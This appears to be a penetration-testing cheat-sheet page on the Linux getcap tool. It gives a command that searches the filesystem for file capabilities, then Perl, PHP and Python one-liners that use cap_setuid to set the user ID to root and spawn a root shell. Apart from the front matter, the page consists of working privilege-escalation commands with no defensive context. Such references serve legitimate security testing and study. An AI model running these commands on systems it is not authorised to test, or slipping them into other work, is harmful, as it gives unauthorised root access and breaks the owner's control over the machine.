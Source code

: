 ```yaml
---
title: Getcap
desc: Displays the capabilities on the queried files.
tags: [Linux, PrivEsc]
alts: [Find, Setcap]
website:
---
```


## Basic

```sh
getcap -r / 2>/dev/null
```

<br />

## Privilege Escalation (get 'root')

```sh
# Perl (ex. /usr/bin/perl = cap_setuid+ep)
perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'

# PHP
php -r "posix_setuid(0); system('$CMD');"

# Python (ex. /usr/bin/python = cap_setuid+ep)
python -c 'import os; os.setuid(0); os.system("/bin/bash")'
```